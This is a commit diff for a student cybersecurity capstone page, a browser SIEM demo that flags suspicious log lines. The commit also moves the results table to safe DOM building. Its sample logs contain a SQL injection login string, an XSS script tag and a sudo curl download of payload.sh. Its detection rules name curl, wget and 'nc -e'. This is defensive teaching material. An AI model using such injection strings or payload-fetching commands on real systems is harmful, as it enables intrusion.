

Before and after one commit to saitama8601s-debug/codomax-cybersecurity-capstone, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 117-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
SIEM-dem.html
updated

```diff
--- a/index.html
+++ b/index.html
@@ -43,11 +43,11 @@
       <div class="card"><h3>System Status</h3><div class="num ok" id="sysStatus">ACTIVE</div></div>
     </div>
 
-    <label><strong>Paste Server / Auth / Web Logs Below:</strong></label>
+    <label for="logInput"><strong>Paste Server / Auth / Web Logs Below:</strong></label>
     <textarea id="logInput"></textarea>
     <div class="btns">
-      <button onclick="analyzeLogs()">Analyze Logs</button>
-      <button class="sec" onclick="loadSampleLogs()">Load Sample Attack Logs</button>
+      <button type="button" id="analyzeBtn">Analyze Logs</button>
+      <button type="button" class="sec" id="sampleBtn">Load Sample Attack Logs</button>
     </div>
 
     <table>
@@ -70,7 +70,7 @@
       "Nov 16 02:14:11 srv01 sshd[4105]: Failed password for root from 203.0.113.45 port 51830 ssh2",
       "Nov 16 02:14:19 srv01 sshd[4109]: Failed password for deploy from 203.0.113.45 port 51904 ssh2",
       "Nov 16 02:16:05 web01 nginx: 198.51.100.22 GET /login.php?user=admin' OR '1'='1' -- 200",
-      "Nov 16 02:18:42 web01 nginx: 192.0.2.77 GET /search?q=<script>alert(1)</script> 200",
+      "Nov 16 02:18:42 web01 nginx: 192.0.2.77 GET /search?q=<script>alert(1)<\/script> 200",
       "Nov 16 02:21:10 srv01 sudo: deploy : USER=root ; COMMAND=/usr/bin/curl http://198.51.100.88/payload.sh",
       "Nov 16 02:25:00 srv01 systemd[1]: Started Daily apt download activities."
     ].join("\n");
@@ -82,9 +82,33 @@
       { regex: /(sudo:.*curl|wget|nc -e)/i, sev: "HIGH", name: "Unauthorized C2 / Payload Download", fix: "Isolate host via EDR, kill process, and audit sudoers." }
     ];
 
-    function loadSampleLogs() {
-      document.getElementById("logInput").value = sampleData;
-      analyzeLogs();
+    function appendRow(tbody, sev, threat, ip, line, fix) {
+      const tr = document.createElement("tr");
+
+      const sevTd = document.createElement("td");
+      const badge = document.createElement("span");
+      badge.className = `badge ${sev}`;
+      badge.textContent = sev;
+      sevTd.appendChild(badge);
+
+      const threatTd = document.createElement("td");
+      const strong = document.createElement("strong");
+      strong.textContent = threat;
+      threatTd.appendChild(strong);
+
+      const ipTd = document.createElement("td");
+      ipTd.textContent = ip;
+
+      const codeTd = document.createElement("td");
+      const code = document.createElement("code");
+      code.textContent = line;
+      codeTd.appendChild(code);
+
+      const fixTd = document.createElement("td");
+      fixTd.textContent = fix;
+
+      tr.append(sevTd, threatTd, ipTd, codeTd, fixTd);
+      tbody.appendChild(tr);
     }
 
     function analyzeLogs() {
@@ -104,35 +128,31 @@
             matched = true;
             if (rule.sev === "HIGH") high++;
             if (ipMatch) ips.add(ip);
-            tbody.innerHTML += `<tr>
-              <td><span class="badge ${rule.sev}">${rule.sev}</span></td>
-              <td><strong>${rule.name}</strong></td>
-              <td>${ip}</td>
-              <td><code>${line.replace(/</g, "&lt;")}</code></td>
-              <td>${rule.fix}</td>
-            </tr>`;
+            appendRow(tbody, rule.sev, rule.name, ip, line, rule.fix);
           }
         });
 
         if (!matched) {
-          tbody.innerHTML += `<tr>
-            <td><span class="badge LOW">LOW</span></td>
-            <td>Normal System Event</td>
-            <td>${ip}</td>
-            <td><code>${line.replace(/</g, "&lt;")}</code></td>
-            <td>No immediate action required.</td>
-          </tr>`;
+          appendRow(tbody, "LOW", "Normal System Event", ip, line, "No immediate action required.");
         }
       });
 
       document.getElementById("totalCount").innerText = lines.length;
       document.getElementById("highCount").innerText = high;
       document.getElementById("ipCount").innerText = ips.size;
-      document.getElementById("sysStatus").innerText = high > 0 ? "ALERT" : "CLEAN";
-      document.getElementById("sysStatus").className = high > 0 ? "num crit" : "num ok";
+      const statusEl = document.getElementById("sysStatus");
+      statusEl.innerText = high > 0 ? "ALERT" : "CLEAN";
+      statusEl.className = high > 0 ? "num crit" : "num ok";
     }
 
-    window.onload = loadSampleLogs;
+    function loadSampleLogs() {
+      document.getElementById("logInput").value = sampleData;
+      analyzeLogs();
+    }
+
+    document.getElementById("analyzeBtn").addEventListener("click", analyzeLogs);
+    document.getElementById("sampleBtn").addEventListener("click", loadSampleLogs);
+    window.addEventListener("DOMContentLoaded", loadSampleLogs);
   </script>
 </body>
 </html>
```
